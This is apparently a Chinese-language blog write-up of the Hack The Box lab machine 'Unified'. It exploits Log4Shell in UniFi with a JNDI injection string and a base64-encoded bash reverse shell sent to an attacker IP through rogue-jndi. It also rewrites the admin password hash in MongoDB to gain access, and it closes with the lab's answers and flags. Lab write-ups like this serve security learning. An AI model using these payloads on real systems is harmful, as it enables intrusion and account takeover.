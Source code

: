 ```yaml
---
title: Hack the box Unified题解
---
```

# Hack the box Unified题解

> 打这个靶机的时候也是断断续续的，所以里面的目标IP前后对应不上，但是方法都是一样的。

# 扫端口

```shell
nmap -sC -sV 10.129.96.149
```

![image-20230404171520202](https://alpha-blog-1300014916.cos.ap-guangzhou.myqcloud.com/img/image-20230404171520202.png)

访问8080端口重定向到了8443

看到是 `unifi6.4.54`版本的，结合官方给的WP知道这个版本有一个CVE，可以以此为出发点进行攻击

# CVE-2021-44228的利用

## 验证漏洞存在

先验证是不是存在这个漏洞

1. 抓包，因为是 `https`的站，所以要对 `burpsuite`进行一些设置[Burp Suite抓HTTPS数据包教程](https://blog.csdn.net/zyw_anquan/article/details/47904495)

![image-20230404175013011](https://alpha-blog-1300014916.cos.ap-guangzhou.myqcloud.com/img/image-20230404175013011.png)

然后根据官方的WP，需要把remember的值改成 `${jndi:ldap://Tun 0的IP/o=tomcat}`

验证存在

![image-20230404214952373](https://alpha-blog-1300014916.cos.ap-guangzhou.myqcloud.com/img/image-20230404214952373.png)

## 实施攻击

### 漏洞利用环境搭建

> 更新&&安装环境
>
> sudo apt update
>
> sudo apt install openjdk-11-jdk -y
>
> sudo apt-get install maven
>
> 安装工具
>
> git clone https://github.com/veracode-research/rogue-jndi
>
> cd rogue-jndi
>
> mvn package

编译成功

![image-20230404222733175](https://alpha-blog-1300014916.cos.ap-guangzhou.myqcloud.com/img/image-20230404222733175.png)

### 开始攻击

首先对 `payload`进行 `base64`编码，以防止出现其他的编码问题

```shell
echo "/bin/bash -c '/bin/bash -i >&/dev/tcp/10.10.14.149/4444 0>&1'" | base64
```

![image-20230404223238197](https://alpha-blog-1300014916.cos.ap-guangzhou.myqcloud.com/img/image-20230404223238197.png)

运行RogueJndi-1.1.jar

```shell
java -jar target/RogueJndi-1.1.jar --command "bash -c {echo,L2Jpbi9iYXNoIC1jICcvYmluL2Jhc2ggLWkgPiYvZGV2L3RjcC8xMC4xMC4xNC4xNDkvNDQ0NCAwPiYxJwo=}|{base64,-d}|{bash,-i}" --hostname "10.10.14.149"
```

并监听4444端口

```shell
nc -lnvp 4444
```

> 第一步运行监听命令
>
> 第二步运行 `RogueJndi-1.1.jar`
>
> 第三步在 `remember`的值改为 `${jndi:ldap://Tun 0的IP:1389/o=tomcat}`
>
> 第四步点击 `Send`
>
> 然后出现红色和蓝色的长线就代表攻击成功了
>
> 但是黄色的长线第一次运行时是不会出现的，要运行 `script /dev/null -c bash`切换成交互式shell才会出现

![image-20230404223823350](https://alpha-blog-1300014916.cos.ap-guangzhou.myqcloud.com/img/image-20230404223823350.png)

## 信息收集

### MongoDB数据库

任务八问 `MongoDB`跑在哪个端口上，用命令查看，发现是在27117端口上

```shell
ps aux | grep mongo
```

![image-20230404224950182](https://alpha-blog-1300014916.cos.ap-guangzhou.myqcloud.com/img/image-20230404224950182.png)

任务九又问 `MongoDB`的默认数据库名称是什么官方的WP里面说了是 `ace`当然也能百度到

然后就是使用 `db.admin.find()`方法检索 `ace`数据库中的所有文档，并将结果传递给 `forEach`方法

```shell
mongo --port 27117 ace --eval "db.admin.find().forEach(printjson);"
```

![image-20230404225908450](https://alpha-blog-1300014916.cos.ap-guangzhou.myqcloud.com/img/image-20230404225908450.png)

可以看到里面第一个就是 `administrator`用户，密码 `hash`值保存在 `x_shadow`变量中，但是这个值并不能被任何的密码工具破解。那就换个思路，不能破解，那就替换，WP中提到可以用 `mkpasswd`命令去实现加密一个新的密码

> 原密码前面有$6$，特征符，代表使用的sha-512进行的加密，所以我们也要同样的方式进行加密新密码
>
>> SHA-512的科普：
>>
>> SHA-512 算法的安全性基于其数学原理和算法复杂度。由于它的输出长度很长，因此很难通过暴力攻击等方法破解。它是目前最常用的哈希算法之一，也被广泛应用于数字签名、密码学加密和数据完整性验证等领域。
>>

![image-20230404230727942](https://alpha-blog-1300014916.cos.ap-guangzhou.myqcloud.com/img/image-20230404230727942.png)

### 更新密码

```shell
mongo --port 27117 ace --eval 'db.admin.update({"_id":ObjectId("61ce278f46e0fb0012d47ee4")},{$set:{"x_shadow":"$6$W8lv9ywfFDfMVM8a$CPn2fYW3L2rlWhKQy8kuef8Vs/SHgwfwhr18ZzJ/K3OMWZeNmMrpoAaranjl/q3.7K3VYZHBPdp2EVnQB3Jq00"}})'
```

### 登录后台

用更新了的密码成功登录后台

![image-20230404231823711](https://alpha-blog-1300014916.cos.ap-guangzhou.myqcloud.com/img/image-20230404231823711.png)

### 找ssh密码

> 点击那个齿轮图标，然后点击Site，滑到页面最底部看到ssh的密码，点那个眼睛可以看到密码

![image-20230404232536565](https://alpha-blog-1300014916.cos.ap-guangzhou.myqcloud.com/img/image-20230404232536565.png)

### ssh连接

> 到这就完事了，`user.txt`在 `/home/michael`目录下

![image-20230404232956730](https://alpha-blog-1300014916.cos.ap-guangzhou.myqcloud.com/img/image-20230404232956730.png)

# 答案

> 1. 22,6789,8080,8443
> 2. UniFi Network
> 3. 6.4.54
> 4. CVE-2021-44228
> 5. ldap
> 6. tcpdump
> 7. 389
> 8. 27117
> 9. ace
> 10. db.admin.find()
> 11. db.admin.update()
> 12. NotACrackablePassword4U2022
> 13. 6ced1a6a89e666c0620cdb10262ba127
> 14. e50bc93c75b634e4b272d2f771c33681

# 参考博客

- [HackTheBox - Unified](https://blog.csdn.net/qq_45862635/article/details/125350250)
- [hack the box靶场unified靶机](https://blog.csdn.net/zr1213159840/article/details/123697698)
